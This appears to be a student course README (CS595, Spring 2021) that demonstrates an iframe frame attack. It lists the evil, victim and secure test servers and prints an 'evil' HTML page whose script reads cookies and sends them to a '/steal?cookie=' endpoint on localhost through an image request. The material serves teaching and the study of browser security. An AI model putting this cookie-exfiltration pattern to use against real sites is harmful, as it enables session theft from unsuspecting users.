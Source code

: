 ## Q2: Frame attack

### List of directories

  * Code
    * [Server 1: Evil server](frame-attack/evil_server.js)
    * [Server 2: Victim server](frame-attack/victim.js)
    * [Server 3: Secure server](frame-attack/secure.js)    
    * [HTML 1: HTML having the victim site framed](frame-attack/files/html/stolencookie.html)
    * [HTML 2: HTML having the secure site framed](frame-attack/files/html/securecookie.html)
    
### Youtube Video: https://youtu.be/uXC6dfXpam0

### Setup: Succesful Attack

* HTML

Evil HTML running on http://localhost:5001/ has an iframe which contains a HTML file running on http://localhost:5002/. 

```diff
$ cat files/html/stolencookie.html 
<html>
<title>
Himarsha's Evil Site
</title>

<h1>Welcome to my evil page! - Successful attack</h1>
Himarsha Jayanetti, CS595 - Spring 2021, ODU
<br><br>
This page is created to demonstrate how to steal cookies from a embedded (inside an iframe) site on another HTML at a cross origin domain.
<br><br>
The iframe cookie can be displayed outside of iframe. Wait for 5 seconds and you will see the main page cookie and iframe cookie appear.
<p>
<p>

<script>
    document.cookie = 'main=cookie'
    const iframe = document.createElement('iframe')
    iframe.src = 'http://localhost:5002/'
    document.body.appendChild(iframe)
    document.write(iframe.contentDocument.cookie)
    console.log(iframe.contentDocument.cookie)

    // wait 5 seconds
    setTimeout(function() {
    const p = document.createElement('p')
-   p.innerHTML = document.cookie   /*iframe.contentDocument.cookie */
    document.body.appendChild(p)

-   new Image().src = 'http://localhost:5002/steal?cookie=' + document.cookie  /*iframe.contentDocument.cookie*/
}, 5000);
</script>

```
